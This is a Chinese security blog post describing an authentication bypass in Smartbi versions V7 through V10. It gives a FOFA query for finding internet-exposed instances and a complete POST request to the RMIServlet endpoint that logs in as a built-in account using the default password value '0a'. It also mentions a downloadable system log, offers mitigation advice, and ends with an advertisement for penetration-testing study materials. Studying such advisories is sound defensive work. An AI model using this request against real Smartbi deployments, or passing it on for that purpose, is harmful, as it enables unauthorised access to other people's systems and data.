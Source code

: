 # 原创
：  实战|Smartbi---意外的福利

# 实战|Smartbi---意外的福利

##### 漏洞描述

Smartbi在安装时会内置几个用户，在使用特定接口时，可绕过用户身份认证机制获取其身份凭证，随后可使用获取的身份凭证调用后台接口，可能导致敏感信息泄露和代码执行。

##### 影响版本

V7 &lt;= Smartbi &lt;= V10

##### fofa语法

FOFA：app=”SMARTBI”

##### 漏洞复现

`http://ip/smartbi/vision/RMIServlet`<br/>  

<br/> 出现以上页面则表示代码存在

##### 构造poc

```
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: ip
Content-Type: application/x-www-form-urlencoded


className=UserService&amp;methodName=loginFromDB&amp;params=["system","0a"]

```

请求体中传入的三个参数

className：必须指定UserService类名methodName：该类调用的方法loginFromDB

params：其中的第一个参数是内置的三个用户名（public、service、system）可随机构造，第二个参数是三个账号默认的密文密码(默认值为0a)<br/> 这里就涉及到代码审计的内容，附上链接<br/> https://exp.ci/2023/06/17/Smartbi-%E5%86%85%E7%BD%AE%E7%94%A8%E6%88%B7%E7%99%BB%E9%99%86%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/

将构造好的数据包放出然后刷新页面即可登录

你以为这就完了，怎么可能呢，来上福利

<br/> 然后我就在测试的时候遇上她，那一刻我的心是灰暗的，是破碎的，到嘴的鸭子就那么飞了，但是身为愣头青的我怎么可能就这么放弃呢，比较特征还是有的，于是就发现了一个新的漏洞。上图。

正如你所见，那个系统日志是可以下载的，理所当然的是个高危，但是至于如何产生的就不得而知了，不确定是否是在环境搭建的时候，某些配置或环境冲突导致的。尝试重装后无法复现。但是个人觉得有一定的借鉴价值。

##### 修复建议

临时缓解方案<br/> 在确认不影响业务的前提下，删除内置的几个账号（public、service、system）。同时如非必要，不要将Smartbi系统开放在互联网上。

升级修复方案<br/> 官方已发布升级补丁包，支持在线升级和离线补丁安装

**没看够~？欢迎关注！**

## **免费领取安全学习资料包！**

渗透工具

技术文档、书籍

<img alt="" height="516" src="https://img-blog.csdnimg.cn/direct/5461750e57024e0db15ba28d8996e718.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/direct/bef67fdf066e4afd96231b1d94e9baf8.png" width="856"/>

面试题

帮助你在面试中脱颖而出

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

<img alt="" height="481" src="https://img-blog.csdnimg.cn/direct/64373cbfb5b4420892722d7069633c73.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/direct/51e0dc6d7c2e4684af5f282e14eac6c2.png" width="665"/>

应急响应笔记

学习路线
